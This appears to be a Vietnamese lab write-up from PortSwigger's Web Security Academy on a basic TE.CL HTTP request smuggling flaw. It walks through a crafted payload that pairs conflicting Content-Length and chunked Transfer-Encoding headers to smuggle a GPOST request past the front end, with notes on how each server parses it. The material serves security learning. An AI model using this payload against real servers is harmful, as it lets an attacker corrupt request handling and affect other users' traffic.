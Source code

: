 ## HTTP request smuggling, basic TE.CL vulnerability

1. Ở lab này phía FE sẽ xử lý TE còn BE xử lý CL. Gửi request vào burp repeater và tắt auto đếm `Content-Length`.

2. Craft payload như sau:
- Payload: 
```
Content-Length: 4
Transfer-Encoding: chunked

67
GPOST / HTTP/1.1
Host: 0a84007204a1d56fc026545f006a00d7.web-security-academy.net
Content-Length: 15

0

```

![image](https://user-images.githubusercontent.com/80744099/226554516-5606516f-6021-4cfa-9c9c-7113a2594629.png)

3. Ở đây phía FE sẽ xử lý TE header, chunk đầu tiên được khai báo có độ dài `67:HEX` = `103:DEC`, chunk tiếp theo có giá trị `0` được coi như là kết thúc request. 

![image](https://user-images.githubusercontent.com/80744099/226552851-74890ef5-4c85-4509-a473-7dee5b7ae30f.png)

4.  Sau khi pass FE, ở phía BE sẽ xử lý CL header, được ta fix ở đây là giá trị 4 character bao gồm `67\r\n`. Phần còn lại của request được gán vào phía trước của request được gửi sau đó. Bắt đầu từ `GPOST ....` 

